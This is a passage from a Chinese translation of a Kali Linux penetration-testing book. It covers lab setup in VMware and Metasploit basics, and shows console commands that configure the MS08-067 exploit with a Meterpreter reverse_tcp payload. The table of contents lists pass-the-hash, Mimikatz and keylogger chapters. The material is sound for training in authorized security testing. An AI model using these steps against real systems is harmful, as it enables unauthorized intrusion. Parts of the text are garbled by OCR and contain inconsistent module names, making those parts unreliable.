# Kali Linux 2 基础安全测试：使用攻击者使用的策略测试你的计算机系统安全

## 使用 Kali Linux

使用与攻击者相同的战术来测试你的计算机系统安全。

感谢我的家人对我无尽的支持和祈祷，你们真是上帝赐予的礼物！

感谢信息安全与网络安全社区的朋友们与我分享知识和时间。还要感谢我们当地书写协会的朋友们（特别是你，Bill！），如果没有你们的投入、陪伴和建议，这一切绝不会发生。

> “古人云：知彼知己，百战不殆。” —— 孙子

> “看，我把你们像羊送入狼群，所以要像蛇一样聪明，像鸽子一样。”。” 马太福音 10:16 (和定钦译本)

## 关于作者

Daniel W. Dieterle 在 IT 领域工作了超过20 年。在此期间，他在一家计算机支持公司工作，为纽约州北部和整个宾夕法尼亚北部的数百家公司提供计算机和网络支持。


他还在一家财富500 强企业的数据中心工作过，曾在一家常春藤学院的计算机支持部门短暂工作，并在一家电气工程公司担任过主管。

在过去的 5 年里，Daniel 完全专注于安全领域。他创建并编写了“CyberArms 计算机安全博客”，他的文章发表在国际安全杂志上，并被技术实体和媒体引用。

Daniel 协助过许多安全培训课程和技术书籍，主要基于 Backtrack 和 Kali Linux。

### Daniel W. Dieterle

`Cyberarms@live.com`

`Cyberarms.wordpress.com`

## 基础 Metasploit 命令

核心命令

文件系统命令

网络命令

系统命令

捕获摄像头视频、截图和声音

运行脚本

玩转模块 - 从远程系统恢复已删除的文件

## 引言

## 社会工程防御

## 第14章 – 社会工程工具包 (SET)

## 启动 SET

## 批量邮件发送器

# SET 的 Java PYInsector 攻击

## 社会工程工具包：PowerShell 攻击向量

## 使用 SET 进行更高级的攻击

## 第15章 - Subterfuge (欺骗)

## 使用 Subterfuge 进行自动浏览器攻击

## 浏览器自动利用

## 第五部分 - 密码攻击

## 第16章 – 破解简单的 LM 哈希

## 在线破解 LM 密码

## 在 Kali 中查询哈希

## 第17章 – 哈希传递攻击 (Pass the Hash)

## 使用 Psexec 传递哈希值

## 哈希传递工具包

## 防御哈希传递攻击

## 第18章 – Mimikatz 明文密码

## 加载模块

## 恢复哈希和明文密码

## 第19章 – Mimikatz 与 Utilman

## Utilman 登录绕过

## 从锁定的工作站恢复密码

## 第20章 - Keyscan 与锁定键盘记录器

# 使用 Metereter 记录键盘

## 使用 Lockout 键盘记录器自动化记录

## 第21章 - HashCat

## 破解 NTLM 密码

## 破解 NTLM 密码

## 破解密码

## 第22章 - 字典文件

## 破解字典

## 第23章 - 哈希传递

## 破解 Linux

## 第24章 - 路由器

## 破解路由器

## 第25章 - Fern

## 使用 Fern

# 26 - Fern

## 使用 Fern 进行攻击

技术，使用公司管理层设定的参数和准则来寻找安全问题。

随后，他们向管理层报告他们的发现并协助纠正这些问题。

> 我们不会涵盖过程中的每一个步骤，但将向你展示所使用的许多技术，以及如何防御这些技术。

我认为 Kali 优于商业安全解决方案最大的驱动因素是价格。安全测试工具可能极其昂贵，而 Kali 是免费的！其次，Kali 包含了许多商业安全产品的开源版本，因此你理论上可以仅通过使用 Kali 来替代昂贵的程序。

尽管 Kali 确实包含了几个流行软件运行的免费版本，这些版本可以升级为全功能的付费版本，并通过 Kali 直接使用。

Backtrack 和 Kali 之间在工具使用上没有主要区别。Kali 基本上是 Backtrack 版本 6，或者是 Backtrack 的最新版本。但它已经从底层开始完全重新工具化，使得软件更新和添加变得简单得多。

在 Backtrack 中，更新某些程序似乎会导致其他程序崩溃；而在 Kali 中，你使用 `Kali update` 命令更新所有内容，可以很好地保持系统完整性。

只需更新 Kali，它就会下载其中包含工具的最新版本。只需注意一点，单独更新工具可能会破坏 Kali，因此运行 `Kali update` 始终是获取操作系统最新包的最佳方式。

由于我们要处理的是有漏洞的操作系统，请确保在宿主机系统和公共互联网之间有一个防火墙路由器（最好是硬件设备）。

## 安装 VMware Player & Kali

在 VMware 上安装 Kali 极其简单，因为 Offensive Security（攻防安全）提供了一个可以直接下载的 Kali VMware 镜像，所以我们不会在这一步花费太多时间。

下载并安装适用于您操作系统版本的 VMware Player。

- 1. 下载并安装 VMware Player (`https://my.vmware.com/web/vmware/downloads`)



- 2. 同意许可协议并选择您想要安装的位置，通常默认设置即可。

- 3. 完成后点击“完成（Finish）”。

下载 Kali VMware 镜像（`http://www.kali.org/downloads/`）并将其保存到您想要运行的地方。



（注：通过下载的镜像验证 SHAISUM 是一个好习惯，以确保您拥有的是合法的镜像副本。有很多 MD5/SHA1 免费软件可用。）

- 5. 解压下载的镜像（使用 7-Zip 即可）。



- 6. 启动 VMware Player。

- 7. 点击菜单中的“播放（Player）”。

- 8. 然后点击“文件（File）”。

- 9. 然后点击“打开（Open）”。

- 10. 浏览到提取出的 `.vmx` 文件，选中它并点击“打开（Open）”。

- 11. 它现在会出现在 VMware 主屏幕上。



- 12. 选中 Kali 虚拟机，点击“编辑虚拟机（Edit Virtual Machine）”。

- 13. 在这里您可以查看并更改虚拟机的任何设置：

- 14. 点击“网络适配器（Network Adapter）”：

- 15. 默认设置为 NAT。这对于我们的工作已经足够了。NAT 意味着虚拟机将在一个与宿主机共享的小型 NAT 网络中创建；如果需要，它们也可以访问互联网。每台机器将获得一个 DHCP 地址，这意味着重启它们时 IP 地址可能会发生。如果您需要知道 Kali 或 Metasploitable 的 IP 地址，只需在终端窗口中输入 `ifconfig`。在基于 Windows 的虚拟机上，在提示符处输入 `ipconfig` 即可。

- 16. 点击“取消（cancel）”返回 VMware 主界面。

- 17. 现在只需点击“播放虚拟机（Play Virtual Machine）”来启动 Kali。您可能会收到消息询问虚拟机是被移动还是复制的，只需点击“我已复制它（I copied it）”。

- 18. 当提示安装 VMware Tools 时，选择稍后安装。

- 19. Kali 启动后，您将进入登录界面：


- 20. 点击“其他（Other）”，然后用用户名“root”和密码“root”登录。

- 21. 随后您将登录 Kali 并看到主桌面：



恭喜你，你做到了！

## 更新 Kali

我们稍后会介绍如何操作 Kali，但首先我们需要将 Kali 更新到最新版本。虚拟机镜像有点旧了，因此有很多更新可能需要一些时间下载。

- 1. 打开终端窗口：


- 2. 输入 `apt-get update` 并按回车键：

```
root@kali:~# apt-get update
Get:1 http://http.kali.org/kali/InRelease [22.0 kB]
Get:2 http://http.kali.org/kali/updates/InRelease [11.8 kB]
Get:3 http://http.kali.org/kali/main [7,535 kB]
Ign http://http.kali.org/kali/contrib-en-US
Ign http://http.kali.org/kali/contrib-en-en
Ign http://http.kali.org/kali/main-en-US
Ign http://http.kali.org/kali/main-en-en
```

- 3. 输入 `apt-get dist-upgrade` 并按回车键：

```
root@kali:~# apt-get dist-upgrade
```

- 4. 当提示时输入 `y` 并按回车。

## 欢迎使用新虚拟机向导

虚拟机就像物理计算机；它需要操作系统。你将如何安装客体操作系统？

从以下位置安装：

- DVD RW 驱动器 (D):

请将安装光盘插入此驱动器以继续。

然后像往常一样安装 Windows 7。。

完成后，你将拥有一个 Windows 7 虚拟机：



检查它的网络设置，确保它也使用 NAT 进行网络连接：

| 设备 | 摘要 | 设备状态 |
| --- | --- | --- |
| 内存 | 1 GB |  {机时连接 |
| 处理器 | | 网络连接 |
| 硬盘 (SCSI) | 40 GB | 桥接模式：直接连接到物理网络 |
| CD/DVD (IDE) | 自动检测 | 复制物理网络连接状态 |
| 软盘 | 自动检测 | |
| 网络适配器 | 自动检测 | 配置适配器 |
| USB 控制器 | 已存在 | NAT：用于共享主机的 IP 地址 |
| 声卡 | 自动检测 | 主机模式：与主机的专用网络连接 |
| 打印机 | 已存在 | 自定义：特定的虚拟网络 |
| 显示器 | 自动检测 | |

运行虚拟机并在 Windows 7 命令行提示符中运行“ipconfig”以查看其 IP 地址：

```
Microsoft Windows [Version 6.1.7601]

C:\Users\Fred>ipconfig

Windows IP 配置

以太网适配器局域连接:

IPv4 地址. . . . . . . . . . . . : 192.168.198.130
```

最后，如果你愿意，在提示时安装适用于 Windows 的 VMware Tools：




# 大功完成，你现在在一个微网络中拥有三个虚拟机，你可以用它们来练习和学习基础攻击性安全渗透技术。

## 安装总结

在本节中，我们学习了如何安装 VMware Player 作为虚拟主机。然后我们在主机上分别安装了 Kali Linux、Metasploitable 2 和 Windows 7 作为独立的虚拟机。

我们将它们配置为使用相同的网络（NAT），这样它们就可以相互通信，并在需要时连接到外部互联网。

我们将在书的其余部分一直使用这种设置。

提醒一下，由于使用了 VMware 的 DHCP，系统的 IP 地址可能会在重启时发生变化。我之所以部分使用这一点，是因为在现实世界中你总是会使用不同的目标 IP 地址。如果你迷路了，可以在虚拟机上运行 `ifconfig`（Linux）或 `ipconfig`（Windows）来查找更改后的 IP 地址。

最后，千万不要在互联网上直接运行 Metasploitable，因为它是故意留有漏洞的。

## 快速桌面导览

让我们花一点时间简要浏览一下 Kali 菜单和界面。

安装时你注意到的最大区别之一是，Kali 是基于 Debian Linux 的，而不是早期版本所基于的 Ubuntu。如果你习惯 Backtrack，桌面仍然使用 Gnome，但看起来外观和感觉有所不同。

### 顶部菜单栏

我们将从顶部菜单栏开始导览。

顶部菜单包含“应用程序”菜单，它是访问 Kali 中包含的所有程序的主要网关；“位置”菜单允许你在文件系统中导航。接下来是 leweasel 浏览器，随后是是终端提示符的快捷方式。

中间是日期和时间，右侧是音量控制图标、网络图标（你可以在此处查看和编辑你的网络连接），最后是用户菜单（你可以在此处访问系统设置、切换用户或注销）。

### 应用程序菜单

“应用程序”菜单是 Kali 中的主菜单。


在此菜单下你可以找到以下主菜单：

- “辅助工具”菜单包括你可以在操作系统中找到的常规工具。
- “电子设备”选项卡包含一个用于 Arduino 板的编程实用程序。
- “Kali Linux”是访问安全程序的主菜单。
- “系统工具”包含系统管理员工具和偏好。

其余都很自而易懂。

### Kali Linux 菜单

对我们来说最重要的 Kali Linux 菜单选项是你可以在那里找到大多数安全工具。



快速查看菜单发现，Kali 增加了一个**十十大安全工具**菜单，以便你可以更快地进入你喜欢的工具。

Aircrack-ng、Burpsuite、Metasploit、Nmap、Wireshark 以及其他几个顶级程序现在触手可及。

如果你熟悉原始的 Backtrack，不要担心，所有常规工具仍然存在于与 Backtrack 使用的非常类似的菜单系统中。

要导航菜单，只需找到你感兴趣的主题，例如，**信息收集**，并沿着菜单一直查找，直到找到你需要的工具：



顺着主菜单分支向下，你会发现工具按类型分类。Web 测试程序可以在 Web 应用程序菜单中找到，所有密码相关的程序都在密码攻击菜单中等。

## 结论

如果你愿意，最好花几分钟浏览菜单系统直到熟悉它的布局。

许多程序程序可以直接从命令行提示符运行，Kali 中包含一些不在菜单中的程序。

# 第二部分 - Metasploit

## Metasploit 简介

对于安全社区来说，Metasploit（以及 Metasploit Pro）是最酷的东西之一。



```
### metasploit v4.7.8-20180310101 [core:4.7 api:1.0]
+ -- 1169 exploits - 643 auxiliary - 186 post
+ -- 312 payloads - 30 encoders - 8 nops
```

Metasploit 框架是一个执行漏洞测试和利用的综合平台。它加载了数千个利用程序、数百个负载和多个编码器。我们将在本中介绍使用 Metasploit 的基础知识，如果你已经熟悉 Metasploit，可以跳过本章或将其作为复习。

### 更新

通常更新 Metasploit 只需运行 `msfupdate`，但根据 Rapid 7 网站的说法，Metasploit 的更新与 Kali 同步。

(https://community.rapid.com/thread/3007)

## Metasploit 概述

你可以通过两种不同的方式启动 Metasploit，从菜单或终端。

- `/Kali Linux/十大安全工具/Metasploit framework`
- `/Kali Linux/利用工具/Metasploit`
- 或者直接在终端输入 `"mfconsole"`

一旦 Metasploit 加载，你将看到下面的主界面并获得一个 `msf>` 提示符。



如果你从未用过 Metasploit，可能会觉得有点困惑，但一旦你熟悉它是如何工作的，你就可以用它做一些神奇的事情。

基本上，使用 Metasploit 攻击目标系统通常涉及：

1. 选择利用程序
2. 设置利用选项
3. 选择负载
4. 设置负载选项
5. 运行利用程序
6. 连接到远程系统
7. 执行后渗透过程

下面的截图显示了这一过程的一个示例，但不用担心；我们将在以后详细地介绍该过程。

根据漏洞的类型，一旦漏洞利用完成，我们通常会获得一个计算机的远程 shell（remote shell）或一个 Meterpreter。

远程 shell 基本上是一个远程终端连接，或者说是为 Windows 用户提供的远程桌面的文本版本。它允许我们像坐在键盘前一样直接输入命令。

但 Meterpreter 提供了许多有趣的程序和工具，我们可以运行这些程序来获取目标机器的信息，控制摄像头和麦克风等设备，甚至利用这个立足点获得对网络更进一步的访问。

当然，如果需要，你可以随时切换到普通的 shell。

在大多数情况下，取决于你正在尝试的操作，Meterpreter Shell 比仅用普通的 shell 要有优势得多。

我们稍后会讨论 Meterpreter Shell，但现在让我们快速涵盖前五个步骤。

> 技术提示：
>
> 当所有其他方法都失败且你开始在 Metasploit 或 Meterpreter shell 中感到迷茫时，请尝试输入 `"help"` 命令。
>
> 你也可以使用 `"tab"` 键来自动补全行，或者按两次以显示所有可用的漏洞和载荷（payloads）。
>
> 示例：`show exploits <tab><tab>`

### 选择漏洞

如果你是一个“受虐狂”并想要查看所有漏洞，只需在 msf 提示符下输入 `"show exploits"`：

```
msf> show exploits
```

但使用 `search` 命令来寻找你需要的内容更容易简单。只需输入 `"search"` 然后你想要的信息。有时，非常具体的描述会帮助你更快地找到所需的漏洞。

你所需要是在运行 `msfconsole` 之前启动 PostSQL 数据库（虽然不运行搜索也可以工作，但速度会较慢）。

要在终端提示符处启动数据库，请输入以下命令：

- `service postgresql start`
- `service metasploit start`
- `msfconsole`

Metasploit 允许你通过多种方式搜索漏洞，按平台、甚至是 CVE（常见漏洞与暴露）和漏洞跟踪编号（bugtrack numbers）。

输入 `help search` 来查看所有选项：

```
msf > help search
用法: search [keywords]

关键词:
app : 客户端或服务器攻击模块
author : 由此作者编写的模块
bug : 匹配 Bugtrack ID 的模块
cve : 匹配 CVE ID 的模块
edb : 匹配 Exploit-DB ID 的模块
name : 匹配描述名称的模块
osvdb : 匹配 OSVDB 的模块
platform : 此平台的模块
ref : 匹配 ref 的模块
type : 特定类型的模块 (exploit, auxiliary 或 post)

示例:
search cve:2009 type:exploit appclient
```

要按名称搜索，只需输入 `search` 和你需要的文本。例如，为了查看 Metasploit 是否有针对安全公告 MS13-069 漏洞的漏洞：

```
msf > search ms13-069
匹配的模块

披露日期 排名 描述
exploit/windows/browser/ms13.069.caret 2013-09-10 00:00:00 UTC normal MS13-069 Microsoft Internet Explorer RCE Use-After-Free
```

要查看特定的 CVE 编号：

```
msf > search cve:2013-3668
匹配的模块

名称 发布日期 排名 描述
exploit/windows/local/ppr_flatten_rec 2013-05-15 00:00:00 UTC average Windows EPA THOB:pprFlatten_rec Local Privilege Escalation
```

查看今年的所有的 CVE（截略列表）：

```
msf> search cve:2013
匹配的模块
```

| 名称 | 描述 | 披露日期 |
|---|---|---|
| normal | auxiliary/admin/http/foreman_openstack_satellite_priv_esc | 2013-06-06 00:00:00 |
| normal | admin/http/create (Red Hat OpenStack/Satellite) creates a Mass Assignment | 2013-05-15 00:00:00 |
| normal | auxiliary/admin/http/mutiny_frontend_read_delete | 2013-01-28 00:00:00 |
| normal | auxiliary/admin/http/arbitrary_File_Read_and_Delete | 2013-01-20 00:00:00 |
| normal | auxiliary/admin/rails_device_pass_reset | 2013-04-03 00:00:00 |
| normal | auxiliary/admin/http/wordpress_Password_Reset | 2013-01-21 00:00:00 |
| normal | auxiliary/admin/http/sophos_wpa_traversal | 2013-01-20 00:00:00 |
| normal | Sophos Web Protection Appliance.CGI Directory Traversal | 2013-06-18 00:00:00 |
| normal | auxiliary/scada/ge_profibus_substitute_traversal | 2013-01-20 00:00:00 |
| normal | auxiliary/scada/unreal_irc.build Directory Traversal | 2013-01-20 00:00:00 |

*(注：上面的 OCR 表格有很多重复，我将根据提供的文本清理逻辑，同时保持内容。）*

```bash
msf exploit(ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name         Current Setting  Required      Description
RHOST        yes               The target address
RPORT        445               yes           Set the SMB service
SMBPIPE      BROWSER           yes           The pipe name to use

Exploit target:
KALI LINUX
Id   Name
0    Automatic Targeting

msf exploit(ms08_067_netapi) > _
```

注意，默认情况下目标被设置为“Automatic Targeting”（自动目标）。我在使用自动目标时结果不不相同，有时如果设置了精确的目标，效果会更好。

- 3. 如果我们想设置特定的类型，可以使用 `show targets`：

```bash
msf exploit(ms08_067_netapi) > show targets
Exploit targets:
Id   Name
---  ---
0    Automatic Targeting Universal
1    Windows 2000 Universal
2    Windows XP SP0/SP1 Universal
3    Windows XP SP2 English (AlwaysOn NX)
4    Windows XP SP2 English (NX)
5    Windows XP SP3 English (AlwaysOn NX)
6    Windows XP SP3 English (NX)
7    Windows 2003 Universal
8    Windows 2003 SP1 English (NO NX)
9    Windows 2003 SP1 English (NX)
10   Windows 2003 SP1 Japanese (NO NX)
11   Windows 2003 SP2 English (NO NX)
12   Windows 2003 SP2 English (NX)
13   Windows 2003 SP2 German (NO NX)
14   Windows 2003 SP2 German (NX)
15   Windows XP SP2 Arabic (NX)
```

- 4. 然后，输入 `set target <ID#` 来设置实际目标。

```bash
msf exploit(ms08_067_netapi) > set target 2
target => 2
```

- 5. 再次执行 `show options` 就会发现我们确实设置了目标值：

## Exploit target:

```text
Id Name
---
2 Windows XP SP0/SP1 Universal
```

最后，虽然在常规利用中没有用到，但我们可以根据需要设置高级选项。

要显示高级选项，只需输入 `show advanced`：

```bash
msf exploit(ms08_067_netapi) > show advanced
Module advanced options:
Name : CHOST
Current Setting : The local client address
Description : 
Name : CPORT
Current Setting : 
Description : The local client port
Name : ConnectTimeout
Current Setting : 10
Description : Maximum number of seconds to establish a TCP connection
Name : ContextInformationFile
Current Setting : 
Description : The information file that contains context
```


现在我们已经看到了如何选择漏洞利用以及如何设置选项。在许多漏洞中，我们还需要设置 `payload`（攻击载荷）。`Metasploit` 提供了许多不同的 `payload` 供使用。要查看它们，只需输入 `show payloads`：

## Picking a Payload

如果不能对被攻击的机器做什么，那么攻击它的乐趣何呢？`Payload` 允许你对被攻击的系统进行某些功能性操作。

```bash
msf exploit(ms08_067_netapi) > show payloads
Compatible Payloads
===================
Name                         option Date Rank Description
generic/custom               normal  Custom
generic/debug_trap           normal  Trap
generic/shell_bind_tcp      normal  Shell Bind TCP
generic/shell_reverse_tcp   normal  Reverse TCP
tight/tight_loop             normal  Inline
windows/dllinject/bind_ipv6 normal DLL Injection, Bind TCP Stager (IPv6)
windows/dllinject/bind_tcp normal
```

你可以输入 `set payload` 并按两次键。这将提示 `Metasploit` 询问你是否想查看所有可用的 `payload`：大多数 `payload` 都以“操作系统/Shell 类型”的格式列出如下所示：

- `set payload/osx/x86/reverse_tcp`

- `set payload/linux/x64/reverse_tcp`

- `set payload/windows/shell_reverse_tcp`

- `set payload/windows/meterpreter/reverse_tcp`

只需为你的目标选择正确的操作系统并挑选你需要的 `payload` 即可。最流行的 `payload` 类型是 `shell`，无论是普通 `shell` 还是 `Meterpreter shell`。如果我们需要一个远程终端 `shell` 来运行命令，请使用标准 `shell`。如果你想要操作会话并运行扩展命令的能力，那么你会想要 `Meterpreter shell`（我们将在下一章进一步讨论）。`payload` 回到攻击系统的通信方式有多种。我通常更倾向于 `reverse_tcp shell`，因为它们一旦在目标系统上执行，它们就会让攻击机器连接到我们的 `Kali` 系统。这样做的一个优势是，由于是受害者机器“主动”发起连接，通常不会被防火墙拦截，而来自外部的连接会被拦截。一旦确定了想要使用哪个 `payload`，就可以使用 `set` 命令来设置它。

- 6. 那么对于我们的示例，让我们为 `Windows` 系统使用 `Meterpreter shell` 并通过 `TCP` 连接回我们：

```bash
msf exploit(win_067_api) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

现在 `payload` 已经设置好，再次执行 `show options` 将显示我们确实设置了目标值：

## Setting Payload

